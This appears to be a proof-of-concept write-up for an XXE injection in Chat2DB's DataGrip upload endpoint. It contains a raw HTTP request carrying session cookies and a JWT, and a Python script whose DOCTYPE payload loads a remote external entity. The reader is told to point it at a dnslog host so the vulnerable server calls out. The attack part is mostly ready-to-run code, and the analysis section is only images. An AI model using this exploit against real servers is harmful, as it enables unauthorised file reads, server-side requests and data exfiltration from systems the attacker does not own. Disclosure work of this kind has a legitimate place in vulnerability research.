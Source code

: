 POC

```plain
POST /api/converter/datagrip/upload?text=%23DataSourceSettings%23 HTTP/1.1
Host: 0.0.0.0:10824
Content-Length: 0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: application/json
Content-Type: application/json
Origin: http://0.0.0.0:10824
Referer: http://0.0.0.0:10824/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrftoken=3HulKimOvfdNVsoKTa9Uh3e58AJf2uPA7aPx9AMXgWkrA2tU62UVfPnq6DrGTThR; _ga=GA1.1.507760079.1732502327; CHAT2DB=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpblR5cGUiOiJsb2dpbiIsImxvZ2luSWQiOjIsImRldmljZSI6ImRlZmF1bHQtZGV2aWNlIiwiZWZmIjoxNzM1MjE4MTIxNzA4LCJyblN0ciI6Im15UDlvQU85Z1B2eER0WU1sY3V2V0dzRWs5SHkwUnNQIn0.-gD5bab1rvixzUxEbIRhdFsA7t8ApTPAKvblltiw3Ro; CHAT2DB.USER_ID=2; _ga_V8M4E5SF61=GS1.1.1732626111.3.1.1732626132.0.0.0
Connection: close


```



and u can using the python script。replace the dnslog address of "<font style="color:rgb(33, 37, 41);">32cd2ab9.log.dnslog.sbs"</font>

```plain
import requests

payload = '''#DataSourceSettings#\n#BEGIN#\n<!DOCTYPE ANY[ <!ENTITY % remote SYSTEM "http://localhost:8000/attack.xml"> %remote; ]> <root></root>'''
url = "http://0.0.0.0:10821/api/converter/datagrip/upload?text={}".format(payload)
from urllib.parse import quote
encoded_url = quote(url, safe='/:?&=')
cookies = {"csrftoken": "3HulKimOvfdNVsoKTa9Uh3e58AJf2uPA7aPx9AMXgWkrA2tU62UVfPnq6DrGTThR", "_ga": "GA1.1.507760079.1732502327", "CHAT2DB": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpblR5cGUiOiJsb2dpbiIsImxvZ2luSWQiOjIsImRldmljZSI6ImRlZmF1bHQtZGV2aWNlIiwiZWZmIjoxNzM1MjE4MTIxNzA4LCJyblN0ciI6Im15UDlvQU85Z1B2eER0WU1sY3V2V0dzRWs5SHkwUnNQIn0.-gD5bab1rvixzUxEbIRhdFsA7t8ApTPAKvblltiw3Ro", "CHAT2DB.USER_ID": "2", "_ga_V8M4E5SF61": "GS1.1.1732626111.3.1.1732626132.0.0.0"}
headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36", "Accept": "application/json", "Content-Type": "application/json", "Origin": "http://0.0.0.0:10824", "Referer": "http://0.0.0.0:10824/dashboard", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
res = requests.post(encoded_url, headers=headers, cookies=cookies)
print(res.text)
```

when u execute the python script ,u will see the dnslog plaform can re

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732633551408-04a40750-4754-409d-b87e-83ea69137eb5.png)

code analysis

in the attack endpoint for <font style="color:#d1d5da;background-color:#24292e;">/datagrip/upload </font>

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732627825407-1c72e190-c6d3-4ffb-90f4-ab22a7936f01.png)

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732627676622-d88a0c34-3111-49e3-82db-b66b8dce9400.png)

